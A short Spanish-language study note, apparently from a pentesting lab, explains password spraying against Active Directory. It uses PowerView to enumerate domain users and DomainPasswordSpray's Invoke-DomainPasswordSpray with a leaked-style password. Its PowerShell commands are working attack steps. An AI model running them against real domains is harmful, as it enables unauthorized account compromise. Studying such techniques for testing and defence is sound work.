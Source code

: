 
Esta es una técnica que utiliza passwords que han sido filtradas para poder intentar autenticarse en algún usuario del active directory.

Pasos a realizar:

1. Identificar usuarios del dominio.
2. Iniciar el ataque de Password Spraying
3. Ejecutar y Verificar la password del ataque.

Para ver la realización del ataque vamos con un ejemplo:

```powershell
#Vamos al directorio donde están las herramientas
cd C:\Tools
. .\PowerView.ps1
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File user.txt
#Esto nos generará un fichero .txt con los usuarios encotrados.
```

![[Pasted image 20250317090245.png]]


```Powershell
#Para el password sprating vamos a utilizar un script en el direcotorio de /scripts/credentials.

cd Scripts\credentials
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList .\user.txt -Password 123456 -Verbose

#Aquí usamos la password 123456, este ataque requiere de una password filtrada.
```

![[Pasted image 20250317090823.png]]

